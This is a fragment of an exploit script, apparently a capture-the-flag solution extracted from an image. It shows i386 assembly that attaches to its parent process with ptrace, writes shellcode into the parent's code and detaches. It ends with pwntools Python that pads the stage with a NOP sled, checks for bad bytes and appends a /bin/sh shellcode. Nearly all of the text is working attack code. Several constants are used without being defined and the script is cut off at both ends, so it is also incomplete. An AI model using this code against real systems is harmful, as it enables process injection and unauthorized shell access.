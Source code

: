 ```
    #define PRINTF_ADDR 0x08048C70
    #define NUM_STR 0x0804B469
    #define STR_STR 0x0804AEB2
    #define PTRACE_ID 26
    #define GETPPID_ID 64
    #define SPIRNTF_ADDR 0x08048B20
    #define BSS_ADDR 0x0814c010 
    mov eax, GETPPID_ID
    int 0x80
    mov ebx, PTRACE_ATTACH
    mov ecx, eax
    mov eax, PTRACE_ID
    xor edx, edx
    xor esi, esi
    int 0x80
    test eax, eax
    js failed
    jmp next_stage
    get_shellcode:
    pop edi
    mov ebp, 0x20
    mov edx, 0x08049E0D
    write_shellcode:
    mov ebx, PTRACE_POKETEXT
    mov esi, dword ptr [edi]
    mov eax, PTRACE_ID
    int 0x80
    test eax, eax
    js write_shellcode
    mov ebx, 0x100000
    wait:
    dec ebx
    jnz wait
    add edx, 4
    add edi, 4
    dec ebp
    test ebp, ebp
    jnz write_shellcode
detach:
    mov ebx, PTRACE_DETACH
    xor edx, edx
    xor esi, esi
    mov eax, PTRACE_ID
    int 0x80
    mov eax, 1
    int 0x80
    failed:
    mov eax, PUTS_ADDR
    push NUM_STR
    call eax
    mov eax, 1
    int 0x80
    next_stage:
    call get_shellcode
    '''
    sc = asm(shell_stage1, arch='i386')
    sc = sc.rjust(0x600, "x90")
    assert 'n' not in sc
    assert 'x00' not in sc
    sc2 = asm(shellasm, arch='i386')
    sc2 += asm(shellcraft.i386.linux.sh())
    payload = []
    RANGE = 1
```